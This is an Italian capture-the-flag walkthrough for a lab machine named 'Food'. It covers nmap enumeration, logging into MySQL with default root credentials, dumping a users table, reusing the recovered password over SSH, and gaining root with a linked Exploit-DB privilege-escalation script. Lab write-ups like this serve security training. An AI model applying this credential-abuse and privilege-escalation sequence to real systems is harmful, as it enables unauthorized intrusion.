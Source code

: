 # FOOD

### ENUMERAZIONE

scan della macchina per torvare possibili porte e la versione di queste. spiegazione [NMAP](TOOLS.md)

```bash
nmap food.thm -sV -sC 
```

dalla scansione notato che è aperto un servizio sql andiamo ad analizzarlo meglio con nmap.

```bash
nmap food.thm -sV --script *sql* 
```
quando nmap finisce lo scan ci restituisce dati molto utili, per esempio che l'utente di mysql è root:root
e questo ci da carta bianca sulla conessione all'sql.

### SERVIZIO SQL

quindi colleghiamoci all'sql e vediamo che dati contiene

```bash
mysql -u root -h 10.10.79.244 -p
```
successivamente mi faccio dumpare tutti i database presenti.

```bash
show databases;
```
```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```
ecco la tables che ci serve andiamo a prenderla.
```bash
use users
```
e successivamente. 
```bash
show tables;
```
adesso abbiamo trovato una tables di nome user andiamo a leggere cosa c'è dentro.
```bash
SELECT * FROM User;
```


ramen    ***************                       
flag     ************************************* 


ecco un utente con la sua password e un flag!

entriamo in ssh.

## SSH
spiegazione [ssh](TOOLS.md)
```bash
ssh ramen@food.thm
```
controllate in giro ci dovrebbero essere altre flag che potete prendere.

facendo un controllo dei permessi che abbiamo.
ho notato che possiamo fare davvero molto poco, quindi sono andato a cercare le vulnerabilità per quanto riguarda GNU, e ne ho trovata una davvero interessate
andiamo ad utilizzarla.

## PRIVESC

https://www.exploit-db.com/exploits/41154 ho usato questo exploit per fare priv esc,
questo exploit sfrutta un autenticazione di livello maggiore(root) e ci permette tramite un vulnerabilità presente in 
quest'ultima di fare priv esc.

una volta scaricato lo script lo passiamo sulla macchina il gioco è fatto.
```bash
chmod +x script.sh
./script.sh
```
